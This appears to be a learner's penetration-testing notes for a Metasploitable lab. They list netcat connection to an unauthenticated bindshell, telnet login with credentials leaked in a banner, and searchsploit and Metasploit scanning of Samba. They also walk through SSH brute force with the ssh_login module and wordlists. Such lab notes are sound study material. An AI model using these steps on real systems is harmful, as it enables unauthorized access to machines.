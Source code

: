 exit to exit

**Default credential router**
- checking IP gateway for router : netstat
- Website address = IP gateway

### SERVICE - bindshell
- NO Authentication
- misconfiguration - administrator set up without authentication, etc

use netcat (nc)

-> nc 192.168.x.x port_number

### SERVICE - telnet
- this vulnerability only possible due to information disclosure - as there username and password on the bannner of Metasploitable

-> searchsploit VERSION

to connect to telnet machine :

-> telnet 192.168.x.x

-> sudo su

### SERVICE - netbios-ssn -> samba

-> searchsploit samba

auxiliary module can sometime be scanner : can be use to scan for the version

msf5 -> search auxiliary

msf -> use auxiliary/scanner/smb/

msf5 -> show info

msf5c-> run

### brute force attack - SSH login
- create username list, password list using nano
- search for auxiliary module for ssh login

-> use auxiliary/scanner/ssh/ssh_login

msf5 -> set USER_FILE , PASS_FILE, RHOSTS

msf5 -> run

msf5 -> sessions

msf5 -> sessions -i 1

-> ssh msfadmin@192.x.x.x

weak credential

## Gaining Acess(Trojan,Virus,Payloads) :
